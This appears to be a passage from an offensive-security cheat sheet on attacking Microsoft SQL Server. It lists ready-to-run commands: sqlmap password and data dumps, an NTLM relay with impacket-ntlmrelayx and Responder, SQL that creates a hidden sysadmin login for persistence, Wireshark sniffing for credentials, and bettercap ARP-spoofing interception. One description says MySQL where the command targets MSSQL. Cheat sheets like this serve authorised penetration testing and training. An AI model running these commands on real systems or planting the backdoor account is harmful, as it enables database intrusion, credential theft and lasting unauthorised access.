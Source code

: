 *   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mssql --batch --passwords
    ```
* **Description:** Attempts to log in using default or weak credentials to gain access to the MySQL database.

#### Exploiting SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=mssql --dump
    ```
* **Description:** Exploits SQL Injection vulnerabilities to extract data from MSSQL databases.

#### \[\[Relay Attacks]]

*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-NTLMRelayX Cheat Sheet]]

    ```bash
    impacket-ntlmrelayx -tf targets.txt
    sudo responder -I <interface>
    ```
* **Description:** Relay captured credentials to the target service, potentially gaining unauthorized access.

### Persistence

#### Create a SQL User Account

*   **Tool:** \[\[SQLCMD]]

    ```sql
    CREATE LOGIN persistent_user WITH PASSWORD = 'P@ssw0rd!';
    EXEC sp_addsrvrolemember 'persistent_user', 'sysadmin';
    ```
* **Description:** Add a new user with sysadmin privileges that persists across reboots.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 1433"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.
